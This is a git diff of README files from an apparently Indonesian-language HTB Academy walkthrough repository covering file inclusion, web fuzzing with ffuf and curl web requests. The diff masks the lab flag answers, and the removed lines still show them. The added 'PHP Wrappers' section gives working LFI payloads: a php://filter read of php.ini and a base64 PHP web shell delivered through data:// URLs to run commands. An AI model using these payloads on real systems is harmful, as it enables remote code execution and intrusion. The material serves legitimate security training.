

Update

Changed region(s): [[0.0617, 0.6885, 0.185, 0.8852]]

diff --git a/File Inclusion/README.md b/File Inclusion/README.md
@@ -40,7 +40,7 @@ http://ip:port/index.php?language=../../../../usr/share/flags/flag.txt
 
 - **Answer**
 ```sh
-HTB{n3v3r_tru$t_u$3r_!nput}
+HTB{***}
 ```
 
 ## Basic Bypasses
@@ -67,7 +67,7 @@ http://ip:port/index.php?language=languages//....//....//....//....//flag.txt
 
 - **Answer**
 ```sh
-HTB{64$!c_f!lt3r$_w0nt_$t0p_lf!}
+HTB{***}
 ```
 
 ## PHP Filters
@@ -113,5 +113,69 @@ echo 'code base64' | base64 -d
 
 - **Answer**
 ```sh
-HTB{n3v3r_$t0r3_pl4!nt3xt_cr3d$}
+HTB{***}
+```
+
+## PHP Wrappers
+- Jalankan web target terlebih dahulu
+
+![alt text](https://github.com/rahardian-dwi-saputra/htb-academy-walkthrough/blob/main/File%20Inclusion/assets/fi%2018.JPG)
+
+![alt text](https://github.com/rahardian-dwi-saputra/htb-academy-walkthrough/blob/main/File%20Inclusion/assets/fi%2019.JPG)
+
+- **Question:** Try to gain RCE using one of the PHP wrappers and read the flag at /
+- Buka URL berikut ini, untuk membuka isi file `php.ini`
+```sh
+http://ip:port/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini
+```
+
+![alt text](https://github.com/rahardian-dwi-saputra/htb-academy-walkthrough/blob/main/File%20Inclusion/assets/fi%2020.JPG)
+
+- Tekan `Ctrl+U` untuk membuka kode sumber halaman lalu copy seluruh isi code base64
+
+![alt text](https://github.com/rahardian-dwi-saputra/htb-academy-walkthrough/blob/main/File%20Inclusion/assets/fi%2021.JPG)
+
+- Tempel pada mousepad dan simpan dengan nama file `php-ini`
+
+![alt text](https://github.com/rahardian-dwi-saputra/htb-academy-walkthrough/blob/main/File%20Inclusion/assets/fi%2022.JPG)
+
+- Decode melalui terminal dan cari konfigurasi `allow_url_include`
+```sh
+cat php-ini | base64 -d | grep 'allow_url_include'
+```
+
+![alt text](https://github.com/rahardian-dwi-saputra/htb-academy-walkthrough/blob/main/File%20Inclusion/assets/fi%2023.JPG)
+
+- Karena `allow_url_include = On` sekarang kita bisa buat RCE. Decode source code RCE PHP menggunakan base64
+```sh
+echo '<?php system($_GET["cmd"]); ?>' | base64
+```
+
+![alt text](https://github.com/rahardian-dwi-saputra/htb-academy-walkthrough/blob/main/File%20Inclusion/assets/fi%2024.JPG)
+
+- Copy base64 diatas lalu encode ke URL di https://www.urlencoder.org/
+
+![alt text](https://github.com/rahardian-dwi-saputra/htb-academy-walkthrough/blob/main/File%20Inclusion/assets/fi%2025.JPG)
+
+- Masukkan hasil encode diatas ke dalam URL jalankan melalui web target
+```sh
+http://ip:port/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id
+```
+
+![alt text](https://github.com/rahardian-dwi-saputra/htb-academy-walkthrough/blob/main/File%20Inclusion/assets/fi%2026.JPG)
+
+- Jika kita masukkan nilai parameter `cmd=ls /` maka disana terdapat file txt yang kemungkinan berisi flag
+
+![alt text](https://github.com/rahardian-dwi-saputra/htb-academy-walkthrough/blob/main/File%20Inclusion/assets/fi%2027.JPG)
+
+- Sekarang coba buka isi file tersebut menggunakan perintah `cat /nama_file` melalui URL
+```sh
+http://ip:port/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=cat%20/nama_file
+```
+
+![alt text](https://github.com/rahardian-dwi-saputra/htb-academy-walkthrough/blob/main/File%20Inclusion/assets/fi%2028.JPG)
+
+- **Answer**
+```sh
+HTB{***}
 ```

diff --git a/Web Fuzzing/README.md b/Web Fuzzing/README.md
@@ -41,7 +41,7 @@ ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://ip:port/w
 
 - **Answer:**
 ```sh
-HTB{w3b_f1l3_fuzz1ng_fl4g}
+HTB{***}
 ```
 
 ## Recursive Fuzzing
@@ -94,7 +94,7 @@ ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt 
 
 - **Answer:**
 ```sh
-HTB{d33p3r_d1rector1es_ar3_c00l}
+HTB{***}
 ```
 
 ## Parameter and Value Fuzzing
@@ -136,7 +136,7 @@ ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://ip:port/g
 
 - **Answer:**
 ```sh
-HTB{g3t_fuzz1ng_succ3ss}
+HTB{***}
 ```
 
 - **Question:** What flag do you find when successfully fuzzing the POST parameter?
@@ -167,7 +167,7 @@ curl -d "y=SUNWmc" http://ip:port/post.php
 
 - **Answer:**
 ```sh
-HTB{p0st_fuzz1ng_succ3ss}
+HTB{***}
 ```
 
 ## Virtual Host and Subdomain Fuzzing
@@ -249,7 +249,7 @@ curl -d "y=SUNWmc" http://ip:port/post.php
 
 - **Answer:**
 ```sh
-HTB{p0st_fuzz1ng_succ3ss}
+HTB{***}
 ```
 
 ## Validating Findings
@@ -426,5 +426,5 @@ curl http://hidden.fuzzing_fun.htb:port/godeep/stoneedge/bbclone/typo3/index.php
 
 - **Answer:**
 ```sh
-HTB{w3b_fuzz1ng_sk1lls}
+HTB{***}
 ```

diff --git a/Attacking Web Applications with Ffuf/README.md b/Attacking Web Applications with Ffuf/README.md
@@ -48,7 +48,7 @@ ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:F
 
 - **Answer:**
 ```sh
-HTB{bru73_f0r_c0mm0n_p455w0rd5}
+HTB{***}
 ```
 
 ## Recursive Fuzzing
@@ -85,7 +85,7 @@ ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:F
 
 - **Answer:**
 ```sh
-HTB{fuzz1n6_7h3_w3b!}
+HTB{***}
 ```
 
 ## Sub-domain Fuzzing
@@ -185,7 +185,7 @@ curl -d "id=73" http://admin.academy.htb:port/admin/admin.php
 
 - **Answer:**
 ```sh
-HTB{p4r4m373r_fuzz1n6_15_k3y!}
+HTB{***}
 ```
 
 ## Skills Assessment - Web Fuzzing
@@ -354,5 +354,5 @@ curl -d "username=harry" -X POST http://faculty.academy.htb:port/courses/linux-s
 
 - **Answer:**
 ```sh
-HTB{w3b_fuzz1n6_m4573r}
+HTB{***}
 ```

diff --git a/Web requests/README.md b/Web requests/README.md
@@ -25,7 +25,7 @@ cat download.php
 
 - **Answer:**
 ```sh
-HTB{64$!c_cURL_u$3r}
+HTB{***}
 ```
 
 ## HTTP Requests and Responses
@@ -88,7 +88,7 @@ curl http://ip:port/ -v
 
 - **Answer:**
 ```sh
-HTB{p493_r3qu3$t$_m0n!t0r}
+HTB{***}
 ```
 
 ## GET
@@ -134,7 +134,7 @@ curl http://ip:port/search.php?search=flag -u admin:admin
 
 - **Answer:**
 ```sh
-HTB{curl_g3773r}
+HTB{***}
 ```
 
 ## POST
@@ -184,7 +184,7 @@ curl -X POST -b 'PHPSESSID=cookie' -H 'Content-Type:application/json' -d '{"sear
 
 - **Answer:**
 ```sh
-HTB{p0$t_r3p34t3r}
+HTB{***}
 ```
 
 ## CRUD API
@@ -247,5 +247,5 @@ curl -s http://ip:port/api.php/city/flag | jq
 
 - **Answer:**
 ```sh
-HTB{crud_4p!_m4n!pul4t0r}
+HTB{***}
 ```
